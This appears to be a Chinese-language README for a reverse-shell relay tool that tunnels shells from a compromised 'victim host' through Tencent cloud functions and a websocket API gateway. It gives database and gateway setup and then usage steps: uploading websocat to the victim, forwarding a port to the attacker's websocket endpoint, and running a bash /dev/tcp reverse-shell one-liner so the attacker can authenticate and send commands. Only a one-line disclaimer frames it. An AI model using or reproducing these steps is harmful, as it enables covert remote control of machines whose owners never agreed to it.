 # ReverseShell
通过云函数的 websocket API 网关实现接收反弹 Shell 的功能。

## 项目配置

### 数据库配置
本项目需要一个允许外部连接的 MySQL 数据库。数据库配置语句如下：
```sql
create database SCF;
use SCF;
create table Connections (
    connectionID varchar(128) NOT NULL,
    Date datetime,
    is_user tinyint
)
```

修改 src 文件夹内所有文件中的如下变量
```
db_host = 数据库 host
db_port = 数据库端口
db_user = 数据库用户
db_pass = 数据库密码

push_back_host = 等后续配置 API 网关后填写
```

### 函数配置
1. 参照 [HTTP 代理配置](https://github.com/shimmeris/SCFProxy/tree/main/HTTP) 新建三个自定义函数，分别命名为 register, forward, delete。
2. 进入 [API 网关配置](https://console.cloud.tencent.com/apigateway/service)，新建如下配置服务

![服务](img/service.png)

3. 新建 API，前端类型选择 WS，其余默认，进入下一步
4. 开启设置注册函数、清理函数。后端类型，函数，后端超时时间分别配置为如下：

![函数配置](img/function_config.png)

5. 点击立即完成，发布服务
6. 点击生成的 api，进入信息展示页面获取如下信息，将推送地址填入文件中的 `push_back_host` 变量。

![信息](img/info.jpg)

7. 修改 transmission.py 中的 `PASSWORD` 变量，该变量将用于客户端连接 ws 后将连接认证为用户。
7. 分别复制三个文件的内容到对应的云函数中并部署。

## 使用方式
需要借助 [websocat](https://github.com/vi/websocat)。

1. 上传 websocat（或远程下载）到受害主机
2. 执行 `websocat -E --text tcp-l:127.0.0.1:12345 ws://apigatway` 转发端口
3. 反弹 shell 到本地端口 `bash -i >& /dev/tcp/127.0.0.1/12345 0>&1`（2、3 两步也可利用 & 合并成一条命令）

![反弹 shell](img/reverse_shell.jpg)

4. 攻击者连接 ws://apigate，输入 auth PASSWORD 认证为用户，之后正常发送命令即可。
![执行命令](img/cmd.jpg)

ws 连接后可执行的命令：
```shell
auth PASSWORD 将当前连接认证为用户，只有用户能接收未认证连接发送的信息
close 关闭当前连接
closeall 关闭目前存在的所有连接
```

## 免责申明
此工具仅供测试和教育使用，请勿用于非法目的。

